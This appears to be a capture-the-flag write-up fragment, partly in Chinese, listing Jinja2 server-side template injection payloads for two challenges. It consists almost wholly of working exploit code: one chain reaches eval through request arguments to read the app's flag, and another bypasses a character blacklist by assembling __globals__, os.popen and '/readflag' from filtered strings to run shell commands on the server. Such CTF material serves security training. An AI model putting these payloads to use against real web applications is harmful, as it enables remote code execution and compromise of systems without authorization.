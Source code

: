 ## HITCTF2022

```python
?ha=__class__&hb=__base__&hc=__base__&hd=__subclasses__&he=__init__&hf=__globals__&hg=__builtins__&ah=eval&exp=__import__('app').flag&expression=[][request[dict(a=1,rgs=2)|join][dict(h=1,a=2)|join]][request[dict(a=1,rgs=2)|join][dict(h=1,b=2)|join]][request[dict(a=1,rgs=2)|join][dict(h=1,c=2)|join]][request[dict(a=1,rgs=2)|join][dict(h=1,d=2)|join]]()[191][request[dict(a=1,rgs=2)|join][dict(h=1,e=2)|join]][request[dict(a=1,rgs=2)|join][dict(h=1,f=2)|join]][request[dict(a=1,rgs=2)|join][dict(h=1,g=2)|join]][request[dict(a=1,rgs=2)|join][dict(a=1,h=2)|join]](request[dict(a=1,rgs=2)|join][dict(e=1,xp=2)|join])
```

## 

## 东北电力大学Cute Cirno

payload模板如下。

```python
{%print(lipsum["__globals__"]["os"]["popen"]("/readflag")["read"]())%}
```

绕过黑名单

```python
{%print(lipsum|attr(({}|select()|trim|list)[24]~({}|select()|trim|list)[24]~
({}|select()|trim|list)[1]~(dict|trim|list)[2]~({}|select()|trim|list)[8]~
({}|select()|trim|list)[12]~(dict|trim|list)[3]~(dict|trim|list)[2]~(dict|trim|list)
[4]~({}|select()|trim|list)[24]~({}|select()|trim|list)
[24])  #__globals__
        
|attr(({}|select()|trim|list)[24]~({}|select()|trim|list)[24]~
({}|select()|trim|list)[1]~({}|select()|trim|list)[2]~(dict|trim|list)[11]~
(dict|trim|list)[9]~(dict|trim|list)[11]~({}|select()|trim|list)[2]~(lipsum|trim|list)
[23]~({}|select()|trim|list)[24]~({}|select()|trim|list)[24])    #__getitem__
        
        
(({}|select()|trim|list)
[8]~(dict|trim|list)[4])   #os
        
|attr((lipsum|trim|list)[26]~({}|select()|trim|list)[8]~
(lipsum|trim|list)[26]~({}|select()|trim|list)[2]~({}|select()|trim|list)[3])  #popen


下面这一串是为了取一个/
((lipsum|attr(({}|select()|trim|list)[24]~({}|select()|trim|list)[24]~
({}|select()|trim|list)[1]~(dict|trim|list)[2]~({}|select()|trim|list)[8]~
({}|select()|trim|list)[12]~(dict|trim|list)[3]~(dict|trim|list)[2]~(dict|trim|list)
[4]~({}|select()|trim|list)[24]~({}|select()|trim|list)[24])|   #__globals__
  

trim()|list())[288]~
({}|select()|trim|list)[5]~({}|select()|trim|list)[2]~(dict|trim|list)[3]~
(dict|trim|list)[8]~({}|select()|trim|list)[41]~(dict|trim|list)[2]~(dict|trim|list)
[3]~({}|select()|trim|list)[1])   #/readflag

        
        |attr(({}|select()|trim|list)[5]~
({}|select()|trim|list)[2]~(dict|trim|list)[3]~(dict|trim|list)[8])())%}
```
